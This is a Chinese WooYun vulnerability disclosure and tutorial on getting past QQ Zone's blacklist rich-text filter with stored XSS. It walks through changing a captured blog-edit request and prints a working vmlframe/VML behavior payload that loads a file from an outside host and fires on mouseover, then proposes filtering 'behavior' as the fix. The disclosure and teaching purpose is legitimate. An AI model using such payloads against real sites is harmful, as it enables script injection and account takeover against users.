

# 20\. 存储型 XSS 入门 [套现绕过富文本]

> 来源：[20\. 存储型 XSS 入门 [套现绕过富文本]](http://www.wooyun.org/bugs/wooyun-2010-016779)

## 简要描述

很多应用含有富文本内容，这类应用最典型的特征是具有编辑器，例如：博客日志，邮箱等。这类应用往往允许使用一定的 HTML 代码。 为了在用户体验和安全之间寻找平衡，各种厂商可能采用了不尽相同的办法。但是总体来说，有 2 类。

第 1 类我们称为白名单，即：只允许使用白名单内的合法 HTML 标签，例如 IMG。其它均剔除。例如：百度贴吧回帖时候的代码过滤方 式。

第 2 类我们称为黑名单，即：厂商会构建一个有危害的 HTML 标签、属性列表，然后通过分析用户提交的 HTML 代码，剔除其中有害的部 分。 如：QQ 邮箱的发邮件时的过滤方式。

白名单要安全得多，而黑名单的方式则经常会被绕过。

绕过的技巧也有很多，我们可以从最没技术含量的开始说起!! 本节将以 QQ 空间/QQ 校友的日志功能为例来说明，什么是“套现绕过富 文本”！

注意：本节说的“套现”，不是与“钱”有关的；在这里的含义是：“套用现成的 XSS 代码”。

## 详细说明

1\. 新手平时测试 XSS 时，经常会用到`<script>alert(1)</script>`到处插入，看效果。

2\. 这种做法，在某些反射型 XSS，或者你运气好的时候，确实能碰到。但是如果拿到 QQ 空间日志里去插入。嗯，后果一定会很悲壮， 被过滤的毛都没有了。。

3\. 这是为什么呢？因为`<script>`在腾讯的黑名单中，被过滤是理所当然的。

4\. 试想，如果我们找到一个不在腾讯黑名单中的 XSS 代码，岂不是就可以成功在日志里执行 XSS 了么？

5\. 有的人会问了。。哪里去找啊?? 方法有 2 种：

5.1 你足够牛，自己去发现。

5.2 已经有大牛为我们准备了很好的资料，去里面翻。

6\. 我不够牛，所以我只能去大牛的资料里翻咯。

这里我翻的是 @sogili 维护的 [`html5sec.org/`](http://html5sec.org/) ，里面有很多哦


7\. 然后我就开始按照下面的流程慢慢测试。

先进 QQ 空间，发表一个日志，然后编辑日志，同时抓包。


修改抓包内容后，这里修改的是日志内容。提交修改后的数据包！ 然后我们来看看日志里的源代码里，我们提交的 XSS 代码是否被过滤。


8\. 这里我们就不说失败的了，直接说成功的部分。

我们提交以下代码：

```
<vmlframe  style="behavior:url(#default#vml);position:absolute;width:100%;height:100%" src="http://itsokla.duapp.com/shouzi.vml#xss"></vmlframe> 
```

然后看看源代码的输出：


可以看到，这个 XSS 代码完全没过滤。

9\. 我们可以看到 XSS 的效果。鼠标移到日志上，即会触发 XSS 代码。



10.1 使用代码前，先自己在本地试下，是否能执行！搞清楚你所使用的 XSS 代码的原理是什么！

10.2 搞清楚 XSS 代码的适用范围：如：在什么浏览器的什么版本之下才能使用，是否需要用户交互等。

10.3 注意平时对此类代码的搜集与整理。

## 修复方案

过滤 behavior, 和你们修复邮箱里相同问题的方法一样即可。